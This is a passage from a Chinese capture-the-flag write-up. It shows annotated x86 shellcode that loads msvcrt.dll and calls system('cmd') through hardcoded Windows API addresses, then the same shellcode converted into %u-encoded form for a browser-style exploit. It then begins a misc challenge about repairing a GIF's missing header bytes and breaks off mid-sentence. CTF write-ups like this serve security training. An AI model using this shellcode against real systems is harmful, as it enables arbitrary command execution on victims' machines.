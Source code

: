 ```
"\x50"                   //push eax
"\x50"                   //push eax
"\xC6\x45\xFC\x63"       //mov byte ptr[ebp-04h], 63h
"\xC6\x45\xFD\x6D"       //mov byte ptr[ebp-03h], 6Dh
"\xC6\x45\xFE\x64"       //mov byte ptr[ebp-02h], 64h
"\x8D\x45\xFC"           //lea eax, [ebp-04h]
"\x50"                   //push eax
"\xB8\xC7\x93\xBF\x77"   //mov edx, 0x77BF93C7h
"\xFF\xD0"               //call edx
"\x83\xC4\x10"           //add esp, 10h
"\x5D"                   //pop ebp
"\x6A\x00"               //push 0
"\xB8\xc7\x93\xbf\x77"   //mov eax, 0x7c81cb12
"\xFF\xD0";              //call eax 
```

转化为 unicode 编码就行，得到 shellcode

```
%u8b55%u33ec%u50c0%u5050%u45c6%u6df5%u45c6%u73f6%u45c6%u76f7%u45c6%u63f8%u45c6%u72f9%u45c6%u74fa%u45c6%u2efb%u45c6%u64fc%u45c6%u6cfd%u45c6%u6cfe%u458d%u50f5%u7bba%u801d%uff7c%u83d2%u0cc4%uec8b%uc033%u5050%uc650%ufc45%uc663%ufd45%uc66d%ufe45%u8d64%ufc45%ub850%u93c7%u77bf%ud0ff%uc483%u5d10%u006a%u12b8%u81cb%uff7c%u90d0 
```

最后一个需要添加 nop 对应的 90  

## 0x05 Misc 穆公崛起

* * *

## 广纳谏言

* * *

下载附件，附件名提示此为 gif 图片，但是却无法打开，需要修复 gif 图片。Winhex 打开图片，查看文件头：

![enter image description here](img/img96_png.jpg)

与正常的 gif 文件头：

![enter image description here](img/img97_u1_png.jpg)

相比少了 47 49 46 38 四个字节，补全后打开得到一 gif 动图。由于动图动画很快，需要逐祯查看。

通过 http://www.360doc.com/content/13/0314/18/699582_271506280.shtml 得到：
